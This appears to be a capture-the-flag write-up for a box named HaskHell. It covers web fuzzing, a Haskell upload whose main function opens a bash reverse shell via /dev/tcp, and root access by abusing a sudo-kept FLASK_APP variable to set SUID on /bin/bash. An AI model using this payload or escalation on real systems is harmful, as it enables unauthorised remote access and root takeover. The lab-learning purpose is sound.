 ```yaml
---
sticker: emoji//1f9d1-200d-1f4bb
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 5001 | HTTP    |



# RECONNAISSANCE
---


We can begin by visiting the web application:

![](Pasted image 20250404151817.png)


If we go to the homework section, we can see the following:


![](Pasted image 20250404152029.png)

We can go to the link and it will take us here:

![](Pasted image 20250404152050.png)

If we fuzz, we can find the submit directory in which we can upload a `haskell` file:


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.110.142:5001/FUZZ" -ic -c -t 200\

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.110.142:5001/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
submit                  [Status: 200, Size: 237, Words: 48, Lines: 9, Duration: 655ms]

```


A Haskell file (with the `.hs` extension) is a text file containing code written in the Haskell programming language, a purely functional, statically typed language. These files are used to define functions, data types, and program logic. When compiled or interpreted, the code is executed to perform tasks.

Based on that, we can begin exploitation.


# EXPLOITATION
---


Ok, if we read the homework section, we can find the indications on how to upload the Haskell file:

```
1) A function called "fib" that outputs the Fibonacci sequence. I will be checking for the first 100 numbers formatted as "1 1 3 ...".

2) A function called "range" that takes 2 numbers and returns a flat list containing all the integers in that range. Example: range 1 5 outputs [1,2,3,4,5]

3) A function called "grey" that takes a number as input and returns all of the codes for that n-bit number. Ex: grey 3 outputs ['000','001','011','010',110,111,101,100]. You can find more information about grey codes here: https://en.wikipedia.org/wiki/Gray_code" 
```


Nice, if we follow the instructions, we can create a payload to receive a reverse shell:

```haskell
module Main where

import System.Process

-- Homework functions (required to pass checks)
fib :: Int -> Int -> [Int]
fib a b = take 100 $ a : b : zipWith (+) (fib a b) (tail (fib a b))

range :: Int -> Int -> [Int]
range x y = [x..y]

grey :: Int -> [String]
grey n
    | n <= 0    = [""]
    | otherwise = map ('0':) prev ++ map ('1':) (reverse prev)
    where prev = grey (n-1)

-- Reverse shell payload (adjust IP/PORT)
main :: IO ()
main = callCommand "bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'"
```

If we upload the file, and set up our listener, we can see the following:

![](Pasted image 20250404152827.png)

There we go, we got our shell. Let's start privilege escalation.




# PRIVILEGE ESCALATION
---


Let's begin by stabilizing the shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

We can read user.txt now:

```
flask@haskhell:/home/prof$ cat user.txt
flag{academic_dishonesty}
```

We can grab the `id_rsa` from `prof` and log into ssh:

![](Pasted image 20250404153210.png)


If we check our sudo privileges, we can notice this:

```
prof@haskhell:~$ sudo -l
Matching Defaults entries for prof on haskhell:
    env_reset, env_keep+=FLASK_APP, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prof may run the following commands on haskhell:
    (root) NOPASSWD: /usr/bin/flask run
```

Let's read the script:

```python
prof@haskhell:~$ cat /usr/bin/flask

#!/usr/bin/python3
# EASY-INSTALL-ENTRY-SCRIPT: 'Flask==0.12.2','console_scripts','flask'
__requires__ = 'Flask==0.12.2'
import re
import sys
from pkg_resources import load_entry_point

if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw?|\.exe)?$', '', sys.argv[0])
    sys.exit(
        load_entry_point('Flask==0.12.2', 'console_scripts', 'flask')()
    )
```


- The `FLASK_APP` environment variable is preserved due to `env_keep` in the sudoers configuration. 
- By pointing `FLASK_APP` to a malicious script, Flask executes it as root when `sudo flask run` is called.
- This bypasses restrictions because the script runs in the context of the Flask process (owned by root).

So, we can do the following:

1. Create a malicious file with the following contents:

```python
import os
os.system('chmod u+s /bin/bash')  # Set SUID bit on /bin/bash
```

2, Set the environment variable:

```
export FLASK_APP=exploit.py
```

3. Run flask as root:

```
sudo /usr/bin/flask run
```

We can see the following:

![](Pasted image 20250404154306.png)

There we go, we got our root shell and can finally read `root.txt`:

```
bash-4.4# cat /root/root.txt
flag{im_purely_functional}
```

![](Pasted image 20250404154405.png)

